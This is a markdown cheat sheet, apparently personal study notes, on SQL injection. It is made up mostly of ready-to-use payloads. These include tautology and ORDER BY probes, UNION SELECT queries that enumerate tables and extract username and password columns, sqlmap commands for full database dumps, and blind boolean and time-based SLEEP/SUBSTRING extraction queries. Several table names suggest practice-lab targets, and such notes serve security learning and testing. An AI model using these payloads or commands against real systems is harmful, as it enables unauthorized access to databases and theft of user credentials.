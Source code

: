 ```yaml
---
title: SQL Injection
description: Attacks using SQL qury
---
```

## Types of SQL Injection
- In-band injection
	- error based
	- union based
- Out-of-band
- Blind injection
	- Boolean based
	- Time based
## Exploit
### In-band injection
#### Testing for SQLi
Basic:
```sql
' and 1=1--
' and 1=2--
```

Mathematical expression:
```sql
1+1
```

Fuzz to find payload. Use `Generic-SQLi.txt`
#### Determining number of columns
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
...
```

#### Find column with useful data type
Sometimes a column return NULL, find the string type column
```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
#### Database version
oracle:
```sql
' UNION SELECT NULL FROM DUAL--
' UNION SELECT banner,NULL FROM v$version--
```

mysql & microsoft:
```sql
-- 2 columns
' UNION SELECT NULL, @@version #
```

#### Database content
Get table name:
```sql
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

Get column name:
```sql
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name+=+'users_gqgpsx'--
```

Get table content:
```sql
'+UNION+SELECT+username_rtrsqw,+password_wipatx+FROM+users_gqgpsx--
```

#### Multiple values in a column
```sql
' UNION SELECT NULL, username|| '~' ||password from users--
```

oracle
```sql
'+UNION+SELECT+table_name,+NULL+FROM+all_tables--
'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='USERS_CIMWEI'--
'+UNION+SELECT+USERNAME_IJRSPK,+PASSWORD_WSSNNP+FROM+USERS_CIMWEI--
```

#### sqlmap
Get database name:
```bash
sqlmap <url> --dbs
```

Get table:
```bash
sqlmap <url> -D <database name> --tab
```

Data dump
```bash
sqlmap <url> -D <database name> -T <tablename> --batch --dump
```

Scanning HTTP request
```bash
sqlmap -r request.txt
```

### Blind injection
#### Boolean-based 
```sql
' AND 1=1 -- - 
```

```sql
' AND 1=2 -- -
```

#### Time-based 
```sql
SELECT SLEEP(10)
```

#### Error-based
Trigger error to trigger behavioural changes
```sql

```

Query SQL example
```sql
-- Simple SQL statements
SELECT * FROM users;
SELECT * FROM users WHERE username = 'Jessamy';
SELECT * FROM users WHERE username = 'Jessamy' and password = 'password123';
SELECT * FROM users WHERE username = 'Jessamy'-- ' and password = 'password123';

-- Substring
SELECT database()
SELECT substring(database(),1,1)

-- Booleans
SELECT * FROM products WHERE name = 'Laptop' AND 1=1;
SELECT * FROM products WHERE name = 'Laptop' AND 1=2;

-- Time delays
SELECT * FROM products WHERE name = 'Laptop' AND SLEEP(5);

-- Time delay substring
SELECT database()
SELECT IF(1=1,SLEEP(5),'a')
SELECT IF(SUBSTRING((SELECT database()),1,1)='a',SLEEP(5),'a')
SELECT IF(SUBSTRING((SELECT database()),1,1)='t',SLEEP(5),'a')
SELECT * FROM products WHERE name = 'Laptop' AND IF(1=1,SLEEP(5),'a')

-- Errors
SELECT IF(SUBSTRING((SELECT database()),1,1)='a',(SELECT table_name FROM information_schema.tables),'a')
SELECT IF(SUBSTRING((SELECT database()),1,1)='t',(SELECT table_name FROM information_schema.tables),'a')
```
## Links
- [SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [Understanding SQLi Payloads](https://www.db-fiddle.com/f/nLpyQDMd49iRygnY9H7CB8/5)
